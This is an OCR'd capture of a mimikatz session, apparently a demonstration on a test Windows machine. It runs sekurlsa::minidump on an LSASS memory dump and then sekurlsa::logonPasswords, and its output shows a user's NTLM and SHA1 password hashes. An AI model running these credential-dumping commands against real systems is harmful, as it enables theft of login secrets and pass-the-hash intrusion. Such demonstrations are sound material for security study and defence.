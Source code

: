 ```

 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::minidump lsass-1.dmp
Switch to MINIDUMP : 'lsass-1.dmp'

mimikatz(commandline) # sekurlsa::logonPasswords full
Opening : 'lsass-1.dmp' file for minidump...

Authentication Id : 0 ; 229404 (00000000:0003801c)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        kerberos :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 229360 (00000000:00037ff0)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        kerberos :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
```